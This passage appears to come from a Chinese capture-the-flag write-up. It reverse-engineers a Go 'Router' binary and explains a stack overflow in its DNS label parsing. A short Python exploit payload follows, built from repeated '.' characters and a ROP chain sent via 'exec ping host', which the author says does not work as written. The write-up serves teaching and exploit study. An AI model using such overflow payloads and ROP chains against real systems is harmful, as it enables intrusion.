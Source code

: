 ```c
//看到split就可以想到是通过某个字符来对整个字符串进行分割，这里是'.'
  v26 = strings_genSplit(a2,v102,(unsigned int)&unk_53BC00,1,0,-1,v13,v14,v15,(__int64)v75.ptr,v75.len,v76,v77);
  j = (__int64)v79;
  v28 = ((__int64 (__golang *)(__int64, __int64, __int64, char *))loc_4704F4)(v26, v102, v27, v79);
  v29 = 0LL;
  while ( v24 > 0 )
  {
    //看到这里可以想到v28像是一个数组，v28[i]存着指针，v28[i+1]存着len，所以会有v71 = *(_QWORD *)(v28 + 8);这种赋值
    v71 = *(_QWORD *)(v28 + 8);
    if ( v71 > 0x3F )
    {
      v96 = v10;
      v72 = runtime_convT64(v71, v24, v29, j, (int)v25, (int)v12, v13, v14, v15, (__int64)v75.ptr);
      *(_QWORD *)&v96 = &RTYPE_int;
      *((_QWORD *)&v96 + 1) = v72;
      return fmt_Fprintf((unsigned int)off_53D3C8,qword_5EC508,(unsigned int)"Label length exceeds 0x3F: %d\n",30,(unsigned int)&v96,1,1,v73,
               v74,(__int64)v75.ptr,v75.len,v76,v77,v78);
    }
    v25 = *(unsigned __int8 **)v28;
    v79[v29] = v71;
    //所以v29是可以根据v71=len不断累加的，这种漏洞非常常见
    if ( !v25 )
      v25 = (unsigned __int8 *)&unk_60C780;
    for ( j = 0LL; j < v71; ++j )
    {
      v12 = &v79[v29 + 1 + j];
      LODWORD(v13) = v25[j];
      *v12 = v13;
    }
    v28 += 16LL;
    --v24;
    v29 += v71 + 1;
  }
```

第二阶段
----

根据上面的分析，可以确定就是用很多'.'字符来让len增加，**一个'.'的len是0，所以这个for循环会立刻退出，但是v29 += v71 + 1;又让v29加1**，所以可以实现让len增加，所以正常的也会想出如下的exp来覆盖返回地址

但是实际跑的时候会不对，所以我又进行了很长的逆向分析过程分析为什么直接这样不行

```python
payload = b"."*0x207+p64(pop_rbp) + p64(bss)+ p64(pop_rcx) + p64(0x200) + p64(pop_rbx) + p64(0x006102B0) + p64(sys_read) + p64(leave_ret)[:5]
p.sendlineafter("Router",b"exec ping host " +payload)
```

主要原因在这里,如果j&lt;=0，那么会**有如下调用链LABEL\_15-&gt;net\_LookupIP-&gt;return ，这就直接返回了，根本走不到strings\_genSplit以及那个for循环**
